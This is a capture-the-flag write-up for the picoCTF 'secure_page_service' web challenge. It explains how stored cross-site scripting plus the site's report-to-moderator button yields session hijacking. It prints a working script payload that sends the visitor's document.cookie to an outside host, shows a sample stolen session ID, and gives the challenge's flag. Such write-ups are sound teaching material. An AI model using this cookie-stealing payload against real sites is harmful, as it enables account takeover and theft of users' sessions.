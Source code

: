 ## secure_page_service - 100 (Web Exploitation)
####Writeup by Oksisane

Created: 2014-11-08 00:54:47

Last modified: 2014-11-09 23:09:56




### Problem

The bad guys have hidden their access codes on an [anonymous secure page service](http://sps.picoctf.com/). Our intelligence tells us that the codes was posted on a page with id `43440b22864b30a0098f034eaf940730ca211a55`, but unfortunately it's protected by a password, and only site moderators can view the post without the password. Can you help us recover the codes?

### Hint

What happens if you put HTML into a page?

## Answer


### Overview

Exploiting XSS vulnerabilities to get Admin user's session cookie.

### Details
Cross-site scripting (commonly referred to as XSS) is a type of web exploit which involves an attacker being able to inject client side scripting into pages viewable by other users. First register an account and log in. Then make a simple page such as ```<h1>Hi</hi>``` which produces <h1>Hi</h1>. From this it is clear that secure_page_service is not filtering any html we put into a page and instead is interpreting it as normal, an XSS vulnerability! But how can we exploit this? The key here is the Report to Moderator button. We can setup a page that records the moderator's session cookie and then lure them to the page by reporting it. Once we have their session cookie we can preform a [session hijacking](http://en.wikipedia.org/wiki/Session_hijacking) attack (replace our session with that of the moderators), so that secure_page_service will think we are the moderator and override the password check when we browse to page `43440b22864b30a0098f034eaf940730ca211a55`.
So now we know what to do once we have the moderator cookie, but how do we get it?

We can form a page such as
```html
<script>
location.href=("http://ehsandev.com/pico.php?c="+document.cookie)
</script>
```
When a user browses to this page they are redirected to a page on a server (in this case ehsandev.com) with their cookies in the url. The attacker can then simply view the log of the request made to the servers and copy out the session id. In this example, when we hit the report button the moderator would be redirected to `http://ehsandev.com/pico.php?c=PHPSESSID=02b8t6vqgvfigv4at2ovp3e0g6` where `02b8t6vqgvfigv4at2ovp3e0g6` is the session cookie we are looking for and would appear in the logs of this site. Finally, we have to manually set the admin cookie to our `PHPSESSID` cookie using a Chrome extension such as [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) or a Firefox extension such as [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/). Then, we view the page `43440b22864b30a0098f034eaf940730ca211a55` and we get our flag!

### Flag
    wow_cross_site_scripting_is_such_web

